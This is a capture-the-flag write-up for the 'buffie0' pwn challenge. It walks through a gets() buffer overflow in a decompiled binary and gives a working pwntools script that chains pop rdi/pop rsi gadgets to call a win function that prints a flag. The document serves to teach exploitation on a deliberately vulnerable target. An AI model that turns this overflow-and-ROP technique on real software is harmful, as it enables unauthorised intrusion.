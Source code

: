 # buffie0 Pwn challenge

First of all, with `file` we see that the binary is a `ELF 64-bit LSB executable`. Let's open `ghidra` to analyze it.  
The `main` function looks like this:  

```c
int main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  vuln();
  goodbye();
  return 0;
}
``` 
As we can easily understand, `vuln` is the function that we have to exploit. Analyzing `vuln`:
```c
void vuln(void)

{
  char buf [100];
  
  puts("Tell me your name friend..");
  gets(buf);
  printf("\nYou think you can pwn me %s!?\n",buf);
  return;
}
```
This is pretty straight forward. There is a `gets` function. That means we can do a **Buffer Overflow**. So, we found the vulnerable part of the code.  
We also see that there is a `win` function in the code.  
```c
void win(longlong arg1,longlong arg2)

{
  FILE *__stream;
  char buf [256];
  FILE *f;
  
  if ((arg1 == 0xdeadbeef) && ((arg2 ^ arg1) == 0xdeadbee6)) {
    puts("Go get \'em champ!\n");
    __stream = fopen("./flag.txt","r");
    if (__stream == (FILE *)0x0) {
      puts("Someone stole the flag! Talk to **w3th4nds**\n");
    }
    else {
      fgets(buf,0x100,__stream);
      printf("Enjoy your flag!\n%s",buf);
    }
    return;
  }
  puts("\n\nYou reached win, but you forgot the args.. Better luck next time :)\n\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
It takes 2 arguments and then there is an `if` which compares if:
* arg1 = 0xdeadbeef
* arg1 ^ arg2 = 0xdeadbee6
and if so, it reads and prints the flag.  

Our goal is:
* Overflow the buffer
* Call `win` with 2 args
* arg1 = 0xdeadbeef and arg2^arg1 = 0xdeadbee6

To get arg2: 0xdeadbeef^0xdeadbee6 = 0x9  
Functions args in 64-bit, got to `rdi`, `rsi`, `rdx` etc.  
So our payload should look like this:  

```sh
payload = junk + pop_rdi + arg1 + pop_rsi + arg2 + fake + win
``` 
I used `pwntools` to exploit it.  

```python
#!/usr/bin/python3
from pwn import *

ip = 'ctf.uniwa.gr'
port = 2004
filename = './buffie0'

def pwn():
    #r = remote(ip, port)
    r = process(filename)
    elf = ELF(filename)
    rop = ROP(elf)
    win = p64(elf.symbols['win'])
    junk = b'z'*120
    arg1 = p64(0xdeadbeef)
    arg2 = p64(0x9)
    pop_rdi = p64((rop.find_gadget(['pop rdi']))[0]) 
    pop_rsi = p64((rop.find_gadget(['pop rsi']))[0]) 
    fake = p64(0x0)
    payload = junk +  pop_rdi + arg1 + pop_rsi + arg2 + fake + win
    r.sendlineafter('friend..', payload)
    r.recvlines(6)
    flag = r.recvline()
    log.success('Flag: {}'.format(flag.decode('utf8')))
pwn()
```
